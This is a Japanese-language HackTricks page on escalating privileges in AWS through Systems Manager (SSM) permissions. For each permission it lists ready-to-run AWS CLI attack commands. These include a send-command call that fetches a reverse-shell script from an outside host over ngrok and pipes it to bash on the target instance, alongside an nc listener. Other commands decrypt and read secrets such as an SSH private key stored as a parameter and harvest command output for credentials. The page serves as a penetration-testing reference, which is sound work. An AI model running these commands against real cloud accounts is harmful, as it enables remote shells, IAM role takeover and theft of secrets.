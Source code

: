 # AWS - SSM Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## SSM

SSMについての詳細は以下をチェックしてください:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** の権限を持つ攻撃者は、Amazon SSM Agentを実行しているインスタンスで**コマンドを実行し**、その中で動作しているIAMロールを**侵害する**ことができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的影響：** SSMエージェントが実行中のEC2 IAMロールに直接privescします。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンス内で**SSHのようなセッションを開始**し、それに内包されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin**がインストールされている必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行中のインスタンスにアタッチされているEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`が有効**で実行される場合、十分な権限を持つユーザーは`ecs execute-command`を使用してコンテナ内で**コマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは“_exec_”コマンドを開始するデバイスとターゲットコンテナの間に安全なチャネルを作成することによって行われます。\
したがって、`ssm:StartSession`権限を持つユーザーは、そのオプションが有効になっているECSタスク内でシェルを**取得**できます。実行するだけです:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**潜在的影響：** `ExecuteCommand` が有効になっている実行中のタスクにアタッチされた `ECS` IAM ロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`** の権限を持つ攻撃者は、**切断された** SSM セッション状態で実行されている Amazon SSM エージェントを持つインスタンスで **SSH のようなセッションを再開** し、それに内包されている **IAM ロールを侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的影響：** SSMエージェントが実行中でセッションが切断された状態のEC2 IAMロールに直接privescします。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

これらの権限を持つ攻撃者は、**SSMパラメーター**をリストし、**クリアテキストで読む**ことができます。これらのパラメーターには、SSHキーやAPIキーなどの**機密情報が頻繁に含まれています**。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的影響：** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、それらに**機密情報**が含まれていることを発見することができます。
```
aws ssm list-commands
```
**潜在的影響：** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信された**コマンド**をすべてリストし、生成された**出力を読む**ことができ、その中に**機密情報**があることを期待します。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的な影響：** コマンドラインの出力内の機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクト内部にアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
